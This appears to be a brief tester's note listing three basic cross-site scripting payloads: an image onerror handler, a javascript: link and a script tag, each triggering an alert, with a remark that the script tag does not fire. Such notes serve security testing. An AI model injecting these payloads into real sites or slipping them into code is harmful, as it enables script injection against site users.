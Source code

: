 XSS

1.

```html
<img src="" onerror="alert('xss!')">
```

2.

```html
<a href="javascript:alert('xss!')">Click</a>
```

3. (not work because is not interpreted by browser)

```html
<script>alert('xss!')</script>
```